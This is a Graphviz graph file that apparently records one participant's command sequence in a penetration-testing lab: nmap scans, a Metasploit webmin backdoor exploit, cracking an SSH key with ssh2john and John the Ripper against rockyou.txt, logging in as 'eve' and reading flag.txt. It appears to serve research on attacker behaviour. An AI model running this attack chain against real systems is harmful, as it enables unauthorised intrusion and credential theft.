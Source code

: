 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="nmap -A -p 1-65536 A1 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 A1 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 A1 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	8 [label="set RHOST 172.18.1.5 A6 "]
	9 [label="set RHOSTS 172.18.1.5 M6 "]
	12 [label="nmap -A 10.1.17.4 A1 "]
	14 [label="ssh2john A14 A16 "]
	15 [label="john key A14 "]
	16 [label="cat key  A1 A9 A11 A12 A17 "]
	17 [label="locate *2john A1 A9 A10 A11 A12 A14 A17 "]
	18 [label="/usr/share/john/ssh2john.py key > key.hash A14 A16 "]
	19 [label="john key.hash A14 "]
	20 [label="cat key.hash A1 A9 A11 A12 A17 "]
	33 [label="ls A10 "]
	34 [label="./ssh2john.py key > key2.hash A14 A16 "]
	35 [label="john key2.hash A14 "]
	36 [label="locate *ockyou* A1 A9 A10 A11 A12 A17 "]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash M14 "]
	38 [label="ssh -h A16 "]
	39 [label="ssh -i key eve@10.1.17.4 M16 "]
	40 [label="chmod 600 key M15 "]
	43 [label="ls A10 "]
	45 [label="ls A10 "]
	46 [label="cat flag.txt M17 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  A1 A9 A11 A12 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 12 [constraint=false]
	12 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 43 [constraint=false]
	43 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
